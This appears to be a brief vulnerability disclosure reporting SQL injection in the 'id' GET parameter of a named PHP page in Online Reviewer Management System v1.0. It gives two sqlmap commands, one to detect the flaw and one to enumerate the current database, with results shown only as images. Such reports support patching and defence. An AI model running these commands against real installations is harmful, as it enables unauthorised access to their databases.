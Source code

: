 # Online Reviewer Management System v1.0 by janobe has SQL injection

BUG_Author: believeti

Vulnerability File: /reviewer_0/admins/assessments/pretest/questions-view.php

Parameter "id" (GET), exists SQL injection vulnerability

sqlmap detect injection vulnerabilities: "sqlmap -u http://ip/reviewer_0/admins/assessments/pretest/questions-view.php?id=1"

sqlmap injection result

![image](https://github.com/believeti/pic/blob/main/sqlOne.png)

sqlmap Queries the current database: "sqlmap -u http://ip/reviewer_0/admins/assessments/pretest/questions-view.php?id=1 --current-db"

sqlmap injection result

![image](https://github.com/believeti/pic/blob/main/sqlTwo.png)
